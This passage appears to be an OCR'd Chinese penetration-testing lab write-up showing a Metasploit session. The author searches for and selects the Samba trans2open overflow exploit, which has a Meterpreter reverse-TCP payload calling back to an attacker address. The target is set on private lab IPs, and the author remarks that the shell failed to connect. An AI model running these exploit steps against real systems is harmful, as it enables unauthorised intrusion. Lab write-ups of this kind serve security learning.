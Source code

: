 试一下`Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)`

```bash
#搜索模块
msf6 exploit(freebsd/samba/trans2open) > search samba trans2open

Matching Modules
================

   #  Name                                                         Disclosure Date  Rank   Check  Description
   -  ----                                                         ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open                             2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open                               2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open                                 2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open                             2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)
   4    \_ target: Samba 2.2.x - Solaris 9 (sun4u) - Bruteforce    .                .      .      .
   5    \_ target: Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce  .                .      .      .

Interact with a module by name or index. For example info 5, use 5 or use exploit/solaris/samba/trans2open                                                                                      
After interacting with a module you can manually set a TARGET with set TARGET 'Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce'                                                                  

#选择指定模块
msf6 exploit(freebsd/samba/trans2open) > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
#查看配置参数
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs
                                      /using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.85.154   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

View the full module info with the info, or info -d command.

#设置目标ip
msf6 exploit(linux/samba/trans2open) > set rhosts 192.168.85.156
rhosts => 192.168.85.156
#设置payload 这里注意一下，不清楚为什么默认的payload反弹shell回不来，
#如果说是正反向链接的原因的话我换为linux/x86/meterpreter/bind_tcp
#也没成功，没搞懂
```